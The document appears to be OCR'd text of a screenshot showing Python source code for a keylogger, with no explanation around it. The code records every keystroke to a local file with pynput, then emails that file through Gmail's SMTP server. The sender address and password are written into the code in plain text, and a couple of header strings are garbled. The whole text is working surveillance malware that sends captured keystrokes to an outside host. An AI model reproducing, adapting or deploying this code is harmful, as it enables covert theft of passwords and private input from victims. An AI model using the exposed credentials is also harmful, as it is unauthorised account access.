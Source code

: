 from pynput import keyboard
import logging, atexit, smtplib, time
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.mime.application import MIMEApplication
​
logging.basicConfig(filename=("p4.txt"), level=logging.INFO)
​
def on_press(key):
    logging.info(key)
​
keyboard_listener = keyboard.Listener(on_press=on_press)
keyboard_listener.start()
​
fromaddr = "jd5065578@gmail.com"
toaddr = "jd5065578@gmail.com"
msg = MIMEMultipart()
msg['From'] = fromaddr
msg['To'] = toaddr
msg['Subject'] = "Test Mail"
body = "testing"
msg.attach(MIMEText(body, 'plain'))
attach_file_name = 'p4.txt'
attach_file = open(attach_file_name, 'rb')
payload = MIMEMultipart('application', 'octate-stream')
payload.set_payload((attach_file).read())
payload.add_header('Content-Decomposition', 'attachment', filename=attach_file_name)
msg.attach(payload)
server = smtplib.SMTP('smtp.gmail.com', 587)
server.connect("smtp.gmail.com",587)
server.ehlo()
server.starttls()
server.ehlo()
server.login(fromaddr, "nwjuxouwxcgnklee")
text = msg.as_string()
server.sendmail(fromaddr, toaddr, text)
server.quit()
​
keyboard_listener.join()

